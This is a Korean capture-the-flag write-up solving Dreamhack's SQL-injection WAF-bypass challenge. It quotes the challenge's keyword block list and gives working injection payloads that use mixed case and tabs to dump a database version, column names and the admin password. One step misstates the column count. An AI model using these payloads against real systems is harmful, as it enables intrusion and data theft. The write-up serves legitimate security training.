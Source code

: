 ```yaml
---
layout: single
title: "Dreamhack [sql injection bypass WAF] 문제풀이"
categories: Security
toc: true
author_profile: false
sidebar:
  nav: "docs"
---
```


## Dreamhack_by_pass_sqli
Dreamhack 해커들의 놀이터 SQL Injection bypass WAF 풀기

## Black Box 방식으로 공격해보기
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/a19047d6-ca96-4e23-b911-396ea5c9dca9)

> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/a9db8751-a5ce-47e8-8a17-a7e4846b26d1)

- sql 문법이 막히는 것을 보아 필터링이 되는 것 같다

## 코드 분석하기.

```
keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data:
            return True

    return False

@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        if check_WAF(uid):
            return 'your request has been blocked by WAF.'
```
위 코드를 보면 sql 특적 키워드들이 값으로 들어오면 필터링 돼서 WAF로 인해 막힌다는 메시지가 출력된다.
그렇다면 소문자를 대문자로 바꿔 컬럼 갯수를 알아내는 공격을 해보자.

- 컬럼 수 확인하기.
```
'	oRder	by	1#
'	oRder	by	2#
'	oRder	by	3#
'	oRder	by	4#
```
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/cc963842-806d-4f2f-b366-b01a3cb4df73)

> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/148149c7-dd6b-4643-aa78-4152a8b4c720)

> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/9a198866-a0f5-4892-af3f-c4caf7078997)
 
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/24837302-278d-4e81-b9c6-c0e31cdbfc7f) ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/3ad6428f-4124-4a14-a4bc-2cfe66958196)

'	oRder	by	4# 에서 에러가 발생하는것으로 보아 컬럼의 갯수는 1개이다.

## 컬럼특성 및 DB version 확인하기.
```
'	Union	Select	@@version,null,null#
'	Union	Select	null,@@version,null#
```
- 위 구문으로 2번째 컬럼이 문자열이라는 것을 알아 냈다. 또한 DB 버전도 알아냈다.
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/62084023-65c8-4edd-8eff-d695daeeef5b)
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/5a292eba-c7ad-41fb-949f-ce037602a4bd)

## 컬럼명 확인하기
- 테이블 명이 user라고 나와 있으므로 그걸 이용해 데이터베이스 information_schema.columns 테이블에 있는 값으로 user테이블의 컬럼명을 알아보자.
```
'	Union	Select	null,column_name,null	From	infOrmation_schema.columns	Where	table_name='user'#
'	Union	Select	null,column_name,null	From	infOrmation_schema.columns	Where	table_name='user'	LIMIT	1	OFFSET	1#
'	Union	Select	null,column_name,null	From	infOrmation_schema.columns	Where	table_name='user'	LIMIT	1	OFFSET	2#
```
- 위 sqli 공격으로 3개의 컬럼명을 알아냈다.
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/0fc9cc40-d60c-4c2d-80c5-1185d978a839)
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/b55d4c81-6948-478a-8c2d-830ca2b503fc)
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/c6a24639-6871-44a6-86c9-98f0b2065d2a)

## flag 값 확인하기.
- 우리는 컬럼명, 컬럼 갯수를 알아냈으므로 그 정보를 이용해 flag 값을 알아낼것이다. flag는 uid가 admin인 행의 upw값이다.
```
'	Union	Select	null,upw,null	From	user	Where	uid=concat('ad','min')#
```
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/285d849b-11e1-46b6-af6c-83abea29c17b)


- <a href= "https://github.com/hanmin0512/dreamhack_by_pass_sqli"> [sql injection bypass WAF 문제풀이  github 보러가기</a>
